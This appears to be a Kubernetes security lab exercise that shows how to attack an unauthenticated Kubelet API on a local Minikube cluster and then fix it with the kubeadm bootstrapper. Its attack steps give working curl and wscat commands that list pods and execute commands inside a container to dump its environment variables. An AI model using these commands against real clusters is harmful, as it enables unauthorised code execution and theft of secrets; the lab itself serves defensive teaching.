 ### Attack the Kubelet API
The Kubelet API is responsible for the master to node communication within a Kubernetes cluster. If you expose your nodes to the internet without some important configurations in place you are going to have a bad time. From the official Kubernetes docs:
"By default, requests to the Kubelet’s HTTPS endpoint that are not rejected by other configured authentication methods are treated as anonymous requests, and given a username of system:anonymous and a group of system:unauthenticated."

So let's exploit this "misconfiguration" within Minikube.

## Task 1: Spin up a default Kubernetes cluster

1. Start Minikube using the default LocalKube bootstrapper:
```
minikube delete
minikube start
```

2. Exec into the Kubernetes master and take a look at the kubelet configs:
```
minikube ssh
# grab your minikube IP address
minikube ip
```

3. The Kubelet API runs on every node. If an individual as network access to a node in the kubernetes cluster, they are able to do some interesting things by default, including "exec-ing" into running pods!
```
# port 10250 is the read/write port that the Kubelet API uses for communication to the master node
curl --insecure https://<minikubeIP>:10250/pods | jq
# jq is a tool to prettify JSON output - it is optional here but very useful
```

4. As you can see, using a default implementation of Minikube (any many other kubernetes production boots trappers) we are able to list all of the pods running on a given node. This seems bad. Let's try to Exec and do some damage. First, we launch some pods to take over. In the `manifests` directory, run the following command:
```
Kubectl create -f .
Kubectl get pods
```

5. Now we have our unshorten-api Deployment and Service up and running we can extract details from them using the same `curl` command we used before:
```
curl --insecure https://<minikubeIP>:10250/pods | jq
```

6. In the `metadata` field of the JSON output for our Pod you will find the pod name (remember, this curl command is NOT authenticated. An attacker can see this info without the proper settings in place!). The value will look something like `"name": "link-unshorten-8746d649b-7k8w2",`

7. Now, we take that Pod name and run another curl command. Reading Pod data is interesting but we want to do some damage:
```
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.99.100:10250/exec/default/link-unshorten-8746d649b-7k8w2/unshorten-api-container?command=env | grep&input=1&output=1&tty=1"
```

8. This opens a stream which we can access using [wscat](https://www.npmjs.com/package/wscat). Take note of the `location:` header as we will be using that value to read from the stream. You can install `wscat` using the link above. Once `wscat` is installed, run the following command:
```
wscat -c "https://<minikubeIP>:10250/cri/exec/<valueFrom302>" --no-check
```

9. These are *all of the environment variables* for our unshorten-api pod, printed to the scree, unauthenticated. 

See any issues here?

## Task 2: Fix the Issue
There are a number of way to address the kubelet-api "misconfiguration" issue. To do this locally, our most simple solution is to bootstrap our cluster using the `kubeadm` bootstrapper. Out of the box, Minikube still uses `localkube` to build clusters. `localkube` runs every cluster component as a single binary in the Kubernetes environment. This project is in the process of being deprecated in favor of `kubeadm` which offers us a much more robust solution that matches production clusters more closely.
```
minikube start --bootstrapper kubeadm
```

1. Run our `curl` command from before. We see that the response is `Forbidden` which is due to how `kubeadm` bootstraps clusters. `kubeadm` implements authorization of the kubelet by default. Let's take a look at this setting under the hood:
```
curl --insecure https://192.168.99.100:10250/pods
```

2. SSH into our Minikube node and take a look at our kubelet config:
```
minikube ssh
sudo cat /etc/kubernetes/kubelet.conf
```

3. You will see that our config defines a set of certificates which successfully enables authentication between the Master and Nodes. 

### Note: `kubeadm` does this by default but this is not always the case for other bootstrap mechanisms or scratch-built clusters! Always manually check that this configuration is enforced!

### Discussion Question: Is your kubelet api configured to block these attacks?
